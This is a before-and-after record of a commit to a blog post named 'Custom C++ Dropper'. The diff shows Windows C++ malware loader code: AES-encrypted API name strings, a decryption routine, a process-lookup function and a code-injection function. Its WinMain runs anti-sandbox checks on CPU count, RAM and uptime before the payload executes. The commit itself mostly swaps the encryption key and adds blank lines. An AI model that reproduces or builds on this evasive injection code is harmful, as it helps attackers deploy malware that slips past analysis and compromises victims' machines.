

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-04-01-Custom-C++-Dropper.md, in a window 1280 px wide and 1400 px high, scrolled down 4355 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-04-01-Custom-C++-Dropper.md

```diff
--- a/_posts/2021-04-01-Custom-C++-Dropper.md
+++ b/_posts/2021-04-01-Custom-C++-Dropper.md
@@ -170,13 +170,17 @@ BOOL (WINAPI * pWriteProcessMemory)(
 LPVOID (WINAPI * pLockResource)(
   HGLOBAL hResData
 );
-//AES global encryption key
-	char key[] = { 0x46, 0x69, 0x6c, 0x69, 0x70, 0x70, 0x6f, 0x32, 0x30, 0x32, 0x31 }; //
-	//c=aesenc("VirtualAlloc\x00","Filippo2021")
+
+//AES global encryption key used for payload and strings
+	char key[] = { 0x32, 0x31, 0x66 }; //
+
+	//c=aesenc("VirtualAlloc\x00","addyourkey")
 	//print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in c) + ' };')
 	//payload[] = { 0x84, 0x57, 0x6b, 0x9e, 0x5b, 0x9c, 0xa6, 0x98, 0xd3, 0x47, 0xfc, 0xd6, 0x6, 0xea, 0x85, 0x3e };
 	unsigned char sLockResource[] = { 0x62, 0x63, 0xa5, 0x66, 0x92, 0x53, 0xbe, 0xd1, 0xf1, 0x35, 0x41, 0x9, 0xf4, 0x22, 0xbd, 0x8f };
 	unsigned char sWriteProcessMemory[] = { 0xac, 0x3c, 0xa9, 0x7f, 0x9, 0x25, 0xe2, 0x98, 0x6b, 0xa8, 0xa7, 0xab, 0xb5, 0xf, 0x87, 0x8d, 0xd8, 0x5b, 0x37, 0xf3, 0xa2, 0xd5, 0x93, 0x94, 0xd7, 0xfd, 0xac, 0xc6, 0x40, 0xc4, 0xf9, 0x13 };
+
+
 //AES ENC
 int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
         HCRYPTPROV hProv;
@@ -203,6 +207,7 @@ int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keyl
         CryptDestroyKey(hKey);
         return 0;
 }
+
 //Process injection search for process
 int Find(const char *procname) {
         HANDLE hProcSnap;
@@ -225,7 +230,9 @@ int Find(const char *procname) {
         CloseHandle(hProcSnap);
         return pid;
 }
-//Do the actual code injections stuff
+
+//Do the actual code injections
+
 int m4(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
         LPVOID pRemoteCode = NULL;
         HANDLE hThread = NULL;
@@ -242,21 +249,26 @@ int m4(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
         return -1;
 }
 //Declare actual main win Function
+
 int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
+
 	// check CPU
 	SYSTEM_INFO systemInfo;
 	GetSystemInfo(&systemInfo);
 	DWORD numberOfProcessors = systemInfo.dwNumberOfProcessors;
 	if (numberOfProcessors < 2) return 0;
+
 	// check RAM
 	MEMORYSTATUSEX memoryStatus;
 	memoryStatus.dwLength = sizeof(memoryStatus);
 	GlobalMemoryStatusEx(&memoryStatus);
 	DWORD RAMMB = memoryStatus.ullTotalPhys / 1024 / 1024;
 	if (RAMMB < 2048) return 0;
+
 	//check uptime
 	ULONGLONG uptime = GetTickCount64() / 1000;
 	if (uptime < 1200) return 0; //20 minutes
+
 	void * exec_mem;
 	BOOL rv;
 	HANDLE th;
```
